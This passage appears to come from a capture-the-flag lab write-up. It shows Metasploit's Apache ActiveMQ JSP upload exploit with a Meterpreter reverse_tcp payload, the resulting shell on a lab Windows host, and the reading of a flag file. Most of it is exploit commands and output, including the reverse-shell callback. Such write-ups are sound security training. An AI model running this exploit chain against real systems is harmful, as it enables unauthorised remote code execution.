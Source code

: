 ```bash
msf6 exploit(multi/http/apache_activemq_upload_jsp) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/http/apache_activemq_upload_jsp) > run
```

Boom! We got the **Meterpreter** Shell

```bash
[*] Uploading http://10.150.150.219:8161/C:\Users\User\Desktop\apache-activemq-5.11.1-bin\apache-activemq-5.11.1\bin\../webapps/api//pKFhVUPzZsgES.jar
[*] Uploading http://10.150.150.219:8161/C:\Users\User\Desktop\apache-activemq-5.11.1-bin\apache-activemq-5.11.1\bin\../webapps/api//pKFhVUPzZsgES.jsp
[*] Sending stage (175686 bytes) to 10.150.150.219
[+] Deleted C:\Users\User\Desktop\apache-activemq-5.11.1-bin\apache-activemq-5.11.1\bin\../webapps/api//pKFhVUPzZsgES.jsp
[*] Meterpreter session 1 opened (10.66.X.X:4444 -> 10.150.150.219:49309) at 2022-12-05 15:46:27 -0500
meterpreter > getuid
Server username: HOLLYWOOD\User
```

Now, Let's switch up to the **CMD shell** and navigate to get our last flag.

```powershell
meterpreter > shell
Process 4696 created.
Channel 2 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
C:\Users\User\Desktop\apache-activemq-5.11.1-bin\apache-activemq-5.11.1\bin>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 021A-9C32
 Directory of C:\Users\User\Desktop\apache-activemq-5.11.1-bin\apache-activemq-5.11.1\bin
11/13/2018  05:06 PM    <DIR>          .
11/13/2018  05:06 PM    <DIR>          ..
02/13/2015  11:05 AM            19,091 activemq
02/13/2015  11:05 AM             5,665 activemq-admin
02/13/2015  11:05 AM             4,211 activemq-admin.bat
02/13/2015  11:05 AM             4,211 activemq.bat
02/13/2015  11:02 AM            15,956 activemq.jar
11/13/2018  05:06 PM    <DIR>          win32
11/13/2018  05:06 PM    <DIR>          win64
02/13/2015  10:54 AM            83,820 wrapper.jar
               6 File(s)        132,954 bytes
               4 Dir(s)  44,541,952,000 bytes free
```

_FLAG9_
```powershell
C:\Users\User\Documents>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 021A-9C32

 Directory of C:\Users\User\Documents

03/22/2019  04:12 PM    <DIR>          .
03/22/2019  04:12 PM    <DIR>          ..
03/22/2019  04:12 PM                43 FLAG9.txt
               1 File(s)             43 bytes
               2 Dir(s)  44,541,952,000 bytes free
C:\Users\User\Documents>type FLAG9.txt
type FLAG9.txt
b017cd11a8def6b4bae78bXXXXXXXXXXXXXXXXXXX               
```
